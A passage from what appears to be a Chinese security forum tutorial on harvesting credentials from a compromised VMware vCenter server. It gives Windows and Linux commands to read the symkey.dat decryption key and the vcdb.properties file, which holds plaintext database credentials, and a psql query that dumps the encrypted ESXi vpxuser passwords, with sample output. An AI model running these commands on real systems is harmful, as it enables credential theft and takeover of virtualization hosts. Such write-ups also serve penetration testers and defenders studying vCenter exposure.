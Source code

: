 ![image-20220815103945952.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-547953d25071a5ded4f9fe0a36ec1271cf0719f9.png)  
解决方法：使用双引号对含有空格的路径进行单独处理

![image-20220815104048896.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-fd5f28e6c0e350611fd408e28c3ea62be0cb9246.png)

### 1、获取解密key

```php
#Windows
type C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\ssl\symkey.dat

#Linux
cat /etc/vmware-vpx/ssl/symkey.dat
```

![image-20220813161905824.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-416d9551fd7fc500ce00e07afaa68f8ea2857966.png)

### 2、获取数据库账号密码

vcenter默认数据库文件存放在vcdb.properties，配置文件中有数据库的明文账号密码

```php
#Linux
cat /etc/vmware-vpx/vcdb.properties
cat /etc/vmware/service-state/vpxd/vcdb.properties

#Windows
type C:\ProgramData\VMware\"VMware VirtualCenter"\vcdb.properties
type C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```

![image-20220813184742819.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-2941c7d4897a9f6c8f558372d0e38626164e97a3.png)

![image-20220813191535308.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-3b90201348bc0b855105a0d8bbaea4f1eee01d13.png)

默认是postgresql数据库，只能在vCenter服务器本地登录，执行语句查询ESXI的密码

```php
#psql默认存放位置
Windows: C:\Program Files\VMware\vCenter Server\vPostgres\bin\psql.exe
Linux: /opt/vmware/vpostgres/9.3/bin/psql

#执行语句查询
psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" &gt; password.enc

#执行完会输出一段加密字段
Command&gt; shell psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" &gt; password.enc
Shell access is granted to root
Password for user vc: 
ip_address  | user_name |                                         password                                      
-------------+-----------+---------------------------------------------------------------------------------------
192.168.1.1 | vpxuser   | *H8BBiGe3kQqaujz3ptZvzhWXXZ0M6QOoOFIKL0p0cUDkWF/iMwikwt7BCrfEDRnXCqxoju4t2fsRV3xNMg==
192.168.1.2 | vpxuser   | *zR20RvimwMPHz7U6LJW+GnmLod9pdHpdhIFO+Ooqk0/pn2NGDuKRae+ysy3rxBdwepRzNLdq6+paOgi54Q==
192.168.1.3 | vpxuser   | *Q81OIBXziWr0orka0j++PKMSgw6f7kC0lCmITzSlbl/jCDTuRSs07oQnNFpSCC6IhZoPPto5ix0SccQPDw==
192.168.1.4 | vpxuser   | *R6HqZzojKrFeshDIP8vXPMhN28mLDHiEEBSXWYXNHrQQvHcuLOFlLquI2oLRfqLiPlHwkmAxUj9hKj3VZA==
(4 rows)

```